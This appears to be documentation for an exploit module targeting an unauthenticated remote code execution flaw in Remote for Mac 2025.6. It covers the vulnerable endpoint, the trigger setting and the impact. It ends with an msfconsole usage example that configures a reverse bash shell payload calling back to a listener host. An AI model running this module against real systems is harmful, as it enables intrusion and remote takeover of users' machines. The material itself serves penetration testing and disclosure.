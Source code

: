 # Module Documentation: Remote for Mac 2025.6 - Unauthenticated RCE

## Overview

This module exploits an unauthenticated remote code execution (RCE) vulnerability in **Remote for Mac 2025.6**. When the **"Allow unknown devices"** setting is enabled (disabled by default), the `/api/executeScript` endpoint allows unauthenticated attackers to execute arbitrary AppleScript commands, including shell commands, on the target macOS system.

**Exploit Author:** [Chokri Hammedi](https://packetstormsecurity.com/files/195347/)

**Module Path:** `modules/exploits/osx/http/remote_for_mac_rce.rb`

## Vulnerable Application

- **Vendor:** Evgeny Cherpak
- **Homepage:** [https://cherpake.com/](https://cherpake.com/)
- **Download:** [https://cherpake.com/latest.php?os=mac](https://cherpake.com/latest.php?os=mac)
- **Affected Version:** Remote for Mac 2025.6
- **Tested on:** macOS Mojave 10.14.6

## Vulnerability Details

- **Endpoint:** `/api/executeScript`
- **Vulnerability:** Missing authentication
- **Trigger Condition:** The app must have **"Allow unknown devices"** enabled.
- **Impact:** Full command execution as the logged-in user.

The exploit sends a specially crafted GET request with AppleScript payload headers to the unauthenticated endpoint. The server executes the `do shell script` AppleScript, leading to remote command execution.

## Usage Example

From within `msfconsole`:

```bash
use exploit/osx/http/remote_for_mac_rce
set RHOSTS 192.168.1.100
set RPORT 443
set SSL true
set PAYLOAD cmd/unix/reverse_bash
set LHOST 192.168.1.50
run

